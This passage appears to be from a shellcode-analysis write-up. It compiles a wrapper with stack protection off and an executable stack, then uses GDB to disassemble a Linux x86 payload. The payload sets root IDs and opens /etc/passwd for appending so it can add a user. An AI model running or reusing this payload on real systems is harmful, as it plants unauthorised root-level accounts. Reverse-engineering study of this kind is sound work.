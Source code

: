 Compile, run GDB and break on shellcode.  

```console
root@ubuntu:~/Desktop/workspace# gcc adduserWrapper.c -fno-stack-protector -z execstack -o adduserWrapper.out  
root@ubuntu:~/Desktop/workspace# chmod 777 adduserWrapper.out   
root@ubuntu:~/Desktop/workspace# gdb -q adduserWrapper.out   
Reading symbols from adduserWrapper.out...(no debugging symbols found)...done.  
(gdb) disass main  
Dump of assembler code for function main:  
   0x0804844d <+0>: push   ebp  
   0x0804844e <+1>: mov    ebp,esp  
   0x08048450 <+3>: and    esp,0xfffffff0  
   0x08048453 <+6>: sub    esp,0x20  
   0x08048456 <+9>: mov    DWORD PTR [esp],0x804a040  
   0x0804845d <+16>: call   0x8048330 <strlen@plt>  
   0x08048462 <+21>: mov    DWORD PTR [esp+0x4],eax  
   0x08048466 <+25>: mov    DWORD PTR [esp],0x8048520  
   0x0804846d <+32>: call   0x8048310 <printf@plt>  
   0x08048472 <+37>: mov    DWORD PTR [esp+0x1c],0x804a040  
   0x0804847a <+45>: mov    eax,DWORD PTR [esp+0x1c]  
   0x0804847e <+49>: call   eax  
   0x08048480 <+51>: leave    
   0x08048481 <+52>: ret      
End of assembler dump.  
(gdb) break *0x804a040  
Breakpoint 1 at 0x804a040  
(gdb) r  
Starting program: /home/abatchy/Desktop/workspace/adduserWrapper.out   
Shellcode size: 40  
  
Breakpoint 1, 0x0804a040 in sc ()  
```    

  
Shellcode disassembly:

```nasm
Dump of assembler code for function sc:  
0x0804a040 <+0>: xor    ecx,ecx  
0x0804a042 <+2>: mov    ebx,ecx  
0x0804a044 <+4>: push   0x46  
0x0804a046 <+6>: pop    eax  
0x0804a047 <+7>: int    0x80  
0x0804a049 <+9>: push   0x5  
0x0804a04b <+11>: pop    eax  
0x0804a04c <+12>: xor    ecx,ecx  
0x0804a04e <+14>: push   ecx  
0x0804a04f <+15>: push   0x64777373  
0x0804a054 <+20>: push   0x61702f2f  
0x0804a059 <+25>: push   0x6374652f  
0x0804a05e <+30>: mov    ebx,esp  
0x0804a060 <+32>: inc    ecx  
0x0804a061 <+33>: mov    ch,0x4  
0x0804a063 <+35>: int    0x80  
0x0804a065 <+37>: xchg   ebx,eax  
0x0804a066 <+38>: call   0x804a090 <sc+80>  
0x0804a06b <+43>: popa     
0x0804a06c <+44>: bound  esp,QWORD PTR [ecx+0x74]  
0x0804a06f <+47>: arpl   WORD PTR [eax+0x79],bp  
0x0804a072 <+50>: cmp    al,BYTE PTR [ecx+0x7a]  
0x0804a075 <+53>: bound  eax,QWORD PTR [edi+0x66]  
0x0804a078 <+56>: push   eax  
0x0804a079 <+57>: cmp    BYTE PTR ss:[eax],bh  
0x0804a07c <+60>: dec    esi  
0x0804a07d <+61>: je     0x804a0e0  
```